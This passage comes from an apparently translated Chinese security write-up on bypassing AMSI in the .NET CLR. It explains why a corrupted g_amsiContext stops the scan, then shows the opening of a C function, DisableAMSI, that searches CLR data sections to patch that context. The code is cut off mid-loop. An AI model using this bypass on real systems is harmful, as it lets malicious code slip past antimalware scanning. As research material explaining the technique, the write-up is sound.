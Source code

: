 ```
        0,        
        &amp;amsiResult);

      if(hr == S_OK) `{`
        // if malware was detected or it's blocked by admin
        if(AmsiResultIsMalware(amsiResult) ||
           AmsiResultIsBlockedByAdmin(amsiResult))
        `{`
          // "Operation did not complete successfully because "
          // "the file contains a virus or potentially unwanted" 
          // software.
          GetHRMsg(ERROR_VIRUS_INFECTED, &amp;error_string, 0);
          ThrowHR(COR_E_BADIMAGEFORMAT, &amp;error_string);          
        `}`           
      `}`
    `}`
`}`
```

CLR使用了名为`g_amsiContext`的一个全局变量，该变量指向的是由`AmsiInitialize`创建的AMSI上下文（当首次使用`AmsiScan`时）。如果`AMSI`上下文结构被破坏，`AmsiScan`并不会抛出任何错误，这是否是个问题值得商榷。如果`AmsiScanBuffer`返回`S_OK`，只有此时才会检查`amsiResult`。如果`buffer`中包含恶意代码，就会使用`COR_E_BADIMAGEFORMAT`以及`ERROR_VIRUS_INFECTED`错误信息来调用`ThrowHR`。然而，如果向`AmsiScanBuffer`传递了格式错误的上下文，那么该函数就会返回`E_INVALIDARG`，并且`buffer`中的内容永远不会被检查。此外，`AmsiScan`并不会去调查为什么`AmsiScanBuffer`会出现错误。这里应该问一个问题：“如果系统支持AMSI且调用失败了，背后的原因到底是什么？”



## 0x07 AMSI绕过：Patch数据

Matt Graeber提供了一个PoC，可以破坏`CLR!g_amsiContext`所指向的上下文，这样将导致`AmsiScanBuffer`返回`E_INVALIDARG`。从CLR的实现代码中可知，由于系统永远不会验证`CLR!AmsiScan`的结果是否成功或者失败，因此这种方法行之有效。我们认为系统会简单抛出一个错误，终止尝试加载恶意软件的宿主应用，然而，托管.NET程序集的非托管应用可能会处理任何C++异常。Windows Defender仍然会记录检测到有害代码的行为，但非托管宿主应用在某些情况下仍然可以继续运行。为了通过`g_amsiContext`禁用AMSI，我们可以搜索`PEB.ProcessHeap`所指向的堆内存，或者搜索`.data`段虚拟地址空间中找到的每个指针。后一种方法可以参考如下代码，只有当CLR调用`AmsiScan`后这种方法才有效。

```
BOOL DisableAMSI(VOID) `{`
    LPVOID                   hCLR;
    BOOL                     disabled = FALSE;
    PIMAGE_DOS_HEADER        dos;
    PIMAGE_NT_HEADERS        nt;
    PIMAGE_SECTION_HEADER    sh;
    DWORD                    i, j, res;
    PBYTE                    ds;
    MEMORY_BASIC_INFORMATION mbi;
    _PHAMSICONTEXT           ctx;

    hCLR = GetModuleHandleA("CLR");

    if(hCLR != NULL) `{`
      dos = (PIMAGE_DOS_HEADER)hCLR;  
      nt  = RVA2VA(PIMAGE_NT_HEADERS, hCLR, dos-&gt;e_lfanew);  
      sh  = (PIMAGE_SECTION_HEADER)((LPBYTE)&amp;nt-&gt;OptionalHeader + 
             nt-&gt;FileHeader.SizeOfOptionalHeader);

      // scan all writeable segments while disabled == FALSE
      for(i = 0; 
          i &lt; nt-&gt;FileHeader.NumberOfSections &amp;&amp; !disabled; 
          i++) 
      `{`
        // if this section is writeable, assume it's data
        if (sh[i].Characteristics &amp; IMAGE_SCN_MEM_WRITE) `{`
          // scan section for pointers to the heap
          ds = RVA2VA (PBYTE, hCLR, sh[i].VirtualAddress);

          for(j = 0; 
```